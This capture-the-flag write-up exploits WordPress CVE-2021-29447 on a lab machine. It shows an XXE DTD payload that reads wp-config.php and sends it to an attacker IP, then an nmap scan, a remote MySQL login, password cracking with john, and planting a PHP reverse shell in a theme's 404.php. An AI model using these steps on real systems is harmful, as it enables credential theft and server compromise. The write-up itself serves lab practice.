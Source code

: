 # Wordpress: CVE-2021-29447
---

## INDEX

* [Task-1, Task-2 and Task-3](#task-1-task-2-and-task-3)
* [Task-4, Task-5 and Task-6](#task-4-task-5-and-task-6)
* [Task-7 and Task-8](#task-7-and-task-8)
* [Task-9](#task-9)
---


Using username: `test-corp` and password: `test` we can login on *wp-login.php* page.


## Task-1, Task-2 and Task-3

**Use the vulnerability CVE-2021-29447 to read the wordpress configuration file.**
**Based on the results of #1, what is the name of the database for WordPress?**
**Based on the results of #1, what are the credentials you found?**

Following the tutorial in **part-1** of the machine follow the steps all the wav. Just make sure to change the filename in .dtd file. In this case its *wp-config.php*

```php
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.9.8.235:9999/?p=%file;'>" >
```

Once the received encoded text is decoded just read the file and **Task-2** and **Task-3** can be completed.

## Task-4, Task-5 and Task-6

**Enumerate and identify what is the dbms installed on the server?**
**Based on the results of #4, what is the dbms version installed on the server?**
**Based on the results of #4, what port is the dbms running on?**

```bash
$ nmap -sV -oN nmap-scan 10.10.40.250

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
3306/tcp open  mysql   MySQL 5.7.33-0ubuntu0.16.04.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the nmap scan result it is clearly `MySQL` with version `5.7.33` on port `3306`

## Task-7 and Task-8

**Compromise the dbms, What is the encrypted password located in the wordpress  users table with id 1?**
**Based on the results of #7, What is the password in plain text?**

In order to connect to remote mysql server use the following command with the correct password obtained from *wp-config.php* file

```bash
mysql -h 10.10.40.250 -u thedarktangent -p
```

Once in just using the following commands will give the answers to the **Task-7** and **Task-8**

```bash
show databases;
use wordpressdb2;
show tables;
select * from wptry_users
```

Just create a file named *hash* with hash of password obtained from sql table and run `john` on it.

```bash
john --wordlist=../rockyou.txt hash
```

## Task-9

**Compromise the machine and locate flag.txt**

Just login as `corp-001` with the cracked password and navigate to *theme editor* under *Appearances*. Just select a theme which is currently not in use *(I went with twenty twenty)*.

Edit the *404.php* file to include just a php reverse shell, so anytime it is called it will just give a callback to attacker's machine. Once done navigate to the *theme* under *Appearances* and activate the theme just edited (twenty twenty in my case).

Start the netcat listner `nc -lvnp <port>`. Now just delibrately try to cause a 404 error. Once done check the netcat for reverse shell. Just navigate to */home/stux/flag/flag.txt* to get the last flag.
